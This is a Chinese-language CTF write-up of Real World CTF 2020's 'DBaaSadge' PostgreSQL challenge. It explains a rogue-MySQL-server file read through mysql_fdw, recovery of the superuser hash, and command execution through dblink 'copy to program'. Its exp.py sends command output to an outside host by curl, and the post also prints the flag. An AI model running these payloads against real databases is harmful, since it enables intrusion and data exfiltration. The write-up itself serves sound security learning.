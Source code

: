date: 2021-01-14
categories:
- 比赛
tags:
- web
- ctf
- wp
title: real world ctf 2020
---
# Real World CTF 2020

比赛很棒，题目很好，我很菜

## DBaaSadge

就一个PostgreSQL任意语句执行，给的权限不是superuser，但大部分操作是能进行的

```php
<?php
error_reporting(0);

if(!$sql=(string)$_GET["sql"]){
  show_source(__FILE__);
  die();
}

header('Content-Type: text/plain');

if(strlen($sql)>100){
  die('That query is too long ;_;');
}

if(!pg_pconnect('dbname=postgres user=realuser')){
  die('DB gone ;_;');
}

if($query = pg_query($sql)){
  print_r(pg_fetch_all($query));
} else {
  die('._.?');
}

```

题目提供了docker文件

看下Dockerfile发现：

```
安装了postgresql-10-mysql-fdw
还开启了dblink
```

相关的介绍文章：

https://www.percona.com/blog/2018/08/21/foreign-data-wrappers-postgresql-postgres_fdw/

https://www.postgresql.org/docs/10/contrib-dblink-function.html

一个是远程连接mysql，一个是远程连接postgresql 。

mysql客户端有个非常有名的漏洞：`Load data local infile '/etc/passwd' into table proc;`，即客户端文件读取，利用https://github.com/allyshka/Rogue-MySql-Server 搭建一个恶意mysql服务端成功读取到文件


```
CREATE SERVER q FOREIGN DATA WRAPPER mysql_fdw OPTIONS(host'ccreater.top',port'63306')
CREATE USER MAPPING FOR realuser SERVER q OPTIONS (username 'a', password 'a');
CREATE FOREIGN TABLE c (id int)SERVER q OPTIONS(dbname 'a',table_name 'a')
select * from c
```

结合dblink很自然的想到读取postgress数据库存储文件获得superuser密码再任意命令执行

通过本地搭建环境获得数据库文件位置：/var/lib/postgresql/10/main/base

已查找一下postgresql为关键词查找文件得到密码所在文件：

`/var/lib/postgresql/10/main/global/1260`

查找一下postgresql的加密规则：md5(password+username)



exp.py
```python

import requests

sqls=[
      "CREATE SERVER q FOREIGN DATA WRAPPER mysql_fdw OPTIONS(host'ccreater.top',port'63306')",
      "CREATE USER MAPPING FOR realuser SERVER q OPTIONS (username 'a', password 'a')",
      "CREATE FOREIGN TABLE c (id int)SERVER q OPTIONS(dbname 'a',table_name 'a')",
      "select * from c"
]
sqls=[
      "select dblink('host=0 password=jpr5q','copy(select)to program''curl y5pwcd.ceye.io/`/readflag`''')"
]
def hack(sql):
      burp0_url = "http://54.219.197.26:60080/"
      burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close"}
      r= requests.get(burp0_url, headers=burp0_headers,params={
            "sql":sql
      })
      print(r.text)

for sql in sqls:
      hack(sql)
```

rwctf{pop_cat_says_p1ea5e_upd4t3_youR_libmysqlclient_kekW}